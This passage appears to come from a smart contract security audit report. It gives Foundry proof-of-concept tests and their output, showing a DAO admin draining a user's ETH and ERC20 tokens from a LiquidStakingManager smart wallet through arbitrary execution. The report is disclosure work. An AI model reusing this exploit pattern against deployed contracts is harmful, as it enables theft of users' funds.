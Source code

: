 ```solidity
            data,
            4 ether
        );
        console.log("wallet ETH balance for user after DAO admin rugging");
        console.log(wallet.balance);
    }
```
We run the test:
```
forge test -vv --match testDaoRugFund_Pull_ETH_POC
```
the result is:
```
Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[PASS] testDaoRugFund_Pull_ETH_POC() (gas: 353826)
Logs:
  wallet ETH balance for user after registering
  4000000000000000000
  wallet ETH balance for user after DAO admin rugging
  0
Test result: ok. 1 passed; 0 failed; finished in 13.63ms
```
The second POC shows the admin can steal the ERC20 token from the smart contract via arbrary execution.
```solidity
    function testDaoRugFund_Pull_ERC20_Token_POC() public {
        address user = vm.addr(21312);
        bytes[] memory publicKeys = new bytes[](1);
        publicKeys[0] = "publicKeys";
        bytes[] memory signature = new bytes[](1);
        signature[0] = "signature";
        RugContract rug = new RugContract();
        vm.prank(user);
        vm.deal(user, 4 ether);
        manager.registerBLSPublicKeys{value: 4 ether}(
            publicKeys,
            signature,
            user
        );
        address wallet = manager.smartWalletOfNodeRunner(user);
        ERC20 token = new MockToken();
        token.transfer(wallet, 100 ether);
        console.log("wallet ERC20 token balance for user after registering");
        console.log(token.balanceOf(wallet));
        vm.prank(admin);
        bytes memory data = abi.encodeWithSelector(IERC20.transfer.selector, address(rug), 100 ether);
        manager.executeAsSmartWallet(
            user,
            address(token),
            data,
            0
        );
        console.log("wallet ERC20 token balance for dao rugging");
        console.log(token.balanceOf(wallet));
    }
```
We run the test:
```
forge test -vv --match testDaoRugFund_Pull_ERC20_Token_POC
```
The running result is
```
Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[PASS] testDaoRugFund_Pull_ERC20_Token_POC() (gas: 940775)
```